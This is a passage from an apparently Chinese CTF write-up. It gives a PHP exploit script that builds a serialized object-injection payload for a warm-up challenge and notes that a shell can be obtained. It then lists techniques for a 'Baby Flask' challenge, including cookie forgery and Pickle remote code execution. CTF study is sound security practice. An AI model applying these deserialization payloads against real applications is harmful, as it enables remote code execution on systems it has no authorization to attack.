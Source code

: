 签到反序列化，没什么好说的

```php
// exp
<?php
@error_reporting(0);

class P {
    private $var;

    function __construct(){
        $this -> var = '$flag';
    }
}


class K {
    protected $fn;
    public $name;

    function __construct(){
        $this -> fn = new P();
    }
}


class U {
    public $obj;
}


$o = new U();
$q = new K();
$q -> name = "iv4n";
$o -> obj = $q;

echo urlencode(serialize($o));
```

P.s. 两道签到题都可以getshell

***

#### Baby Flask



![](https://upload-images.jianshu.io/upload_images/11356161-88ddde738c75b6c5.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

![](https://upload-images.jianshu.io/upload_images/11356161-6af4dc4ae876de65.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

知识点

+ Github commits history信息泄露
+ `/proc/self`进程元信息
+ Flask伪造client-side cookie
+ Python Pickle序列化RCE
